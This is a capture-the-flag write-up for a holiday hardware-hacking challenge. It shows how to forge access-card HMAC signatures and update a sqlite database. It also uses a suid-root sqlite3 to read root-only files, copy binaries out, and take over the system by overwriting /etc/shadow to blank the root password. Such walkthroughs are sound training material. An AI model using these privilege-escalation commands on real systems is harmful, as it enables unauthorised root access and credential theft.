 
# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Easy 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.

## Hard 🥇
For the hard part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

A lot of investigation was performed and - presumably - it was not solved in the intended way.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not (directly) the key being used to calculate the HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard I
Using the HMAC secret from the database it is possible to create the correct signature using [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) for the payload `1c06018b6-5e80-4395-ab71-ae5124560189`:

### alternative part 2/hard II
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   
![slh passcode in ENV](slh-env.png)

### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExNDU2MzUyNjMsLTQwNzc0MDU3Nl19
-->